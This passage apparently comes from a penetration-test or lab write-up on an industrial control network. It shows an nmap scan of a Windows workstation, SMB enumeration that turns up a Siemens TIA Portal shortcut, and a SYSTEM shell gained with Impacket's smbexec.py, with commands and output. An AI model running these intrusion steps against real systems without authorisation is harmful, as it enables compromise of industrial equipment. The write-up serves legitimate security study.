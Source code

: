 The workstation was easily identified by its MAC address. Next we scanned the
workstation (192.168.2.251):

```sh
$ nmap -sS -sC -sV -Pn 192.168.2.251
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-15 11:02 BST
Nmap scan report for 192.168.2.251
Host is up (0.00083s latency).
Not shown: 65511 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
808/tcp   open  ccproxy-http
902/tcp   open  iss-realsecure
912/tcp   open  apex-mesh
1801/tcp  open  msmq
2103/tcp  open  zephyr-clt
2105/tcp  open  eklogin
2107/tcp  open  msmq-mgmt
2179/tcp  open  vmrdp
4002/tcp  open  mlchat-proxy
5040/tcp  open  unknown
5357/tcp  open  wsdapi
7680/tcp  open  pando-pub
9543/tcp  open  unknown
13997/tcp open  unknown
22350/tcp open  CodeMeter
22352/tcp open  unknown
27000/tcp open  flexlm0
49671/tcp open  unknown
49687/tcp open  unknown
49688/tcp open  unknown
MAC Address: AC:91:A1:39:0C:94 (Unknown)
```

Nmap is overzealous with its service identification but we can conclude it is
a Windows machine based off of 135, 445, 1801, and 2179.

Enumerating Windows machines can be tricky without knowing the capabilities of
each service. In our case `msrpc` didn't provide anything interesting (aside
from possible [PrintNightmare](https://en.wikipedia.org/wiki/PrintNightmare)
vulnerabilities) but we could authenticate to smb. Using [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html), we were able
to inspect the `User` shares then view the desktop for `Admin`. The desktop had
a shortcut to [TIA Portal](https://www.siemens.com/global/en/products/automation/industry-software/automation-software/tia-portal.html), a GUI for interfacing
with Siemens PLCs over S7 (including uploading logic). After inspecting the
SMB shares, we created an interactive session with the workstation using
Impacket's [smbexec.py](https://github.com/fortra/impacket/blob/master/examples/smbexec.py).

```cmd
$ python3 impacket/examples/smbexec.py Admin@192.168.2.251
Impacket v0.12.0.dev1+20230914.31713.6a3ecf7e - Copyright 2023 Fortra

Password:
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```
